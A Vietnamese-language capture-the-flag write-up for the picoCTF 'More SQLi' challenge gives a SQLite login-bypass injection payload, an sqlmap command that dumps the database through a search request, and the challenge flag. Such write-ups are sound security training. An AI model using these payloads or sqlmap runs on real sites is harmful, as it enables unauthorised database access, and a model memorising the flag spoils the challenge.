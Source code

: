 
# More SQLi
200 Point

## Description:
>Can you find the flag on this website. Additional details will be available after launching your challenge instance.
> http://saturn.picoctf.net:63226/

## Hint:
> SQLiLite

## Solution:

Theo như đề bài gợi thì đây là SQLLite SQL injection

![img](./image/1.png)

Mình sẽ sử dụng SQLLite bypass login với payload: -1' OR 3*2*1=6 AND 00047=00047 -- ở cả username và pass

Trong lúc login mình nhận được một form tìm kiếm như sau:

![img](./image/2.png)

Thực hiện tìm kiếm `hi` và bắt request. Theo suy đoán của mình thì chỗ này sẽ là nơi mình tập trung tấn công sql injection.
![img](./image/3.png)

Đến đây đưa vào sqlmap và chạy lệnh: sqlmap -r 2.txt --dump --threads=5 --risk=3 --level=5 --batch 
 
ta sẽ thu được flag

![img](./image/3.png)

Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
